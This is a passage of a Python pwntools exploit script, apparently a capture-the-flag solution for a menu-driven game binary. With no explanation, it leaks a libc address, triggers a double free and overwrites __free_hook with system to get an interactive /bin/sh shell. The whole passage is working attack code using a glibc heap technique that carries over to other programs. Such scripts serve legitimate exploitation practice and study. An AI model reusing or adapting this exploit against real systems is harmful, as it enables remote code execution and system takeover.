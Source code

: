 ```
    p.sendline(b"d")
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"1")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.recvuntil(b"restart?")
    p.sendline(b"y")

def new(content):
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"y")
    p.recvuntil(b"your name:")
    p.sendline(content)
    p.recvuntil(b"restart?")
    p.sendline(b"y")

def leak():
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.recvuntil(b"restart?")
    p.sendline(b"y")
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline(b"l")
    p.recvuntil(b"message:")

def exp():
    leak()
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    double_free()
    new(b''.ljust(0x50, b'A')) 
    new(p64(libc_base + libc.sym['__free_hook']).ljust(0x50, b'A'))
    new(b''.ljust(0x50, b'A'))
    new(p64(libc_base + libc.sym['system']).ljust(0x50, b'A'))
    p.recvuntil(b"Please input an level from 1-9:")
    p.sendline('1')
    p.recvuntil(b"Please input an order:")
    p.sendline(b"m")
    p.sendline(b"/bin/sh\x00")
    p.recvuntil(b"Please input an order:")
    p.sendline(b"q")
    p.recvuntil(b"leave your name?")
    p.sendline(b"n")
    p.interactive()

if __name__ == '__main__':
    exp() 
```
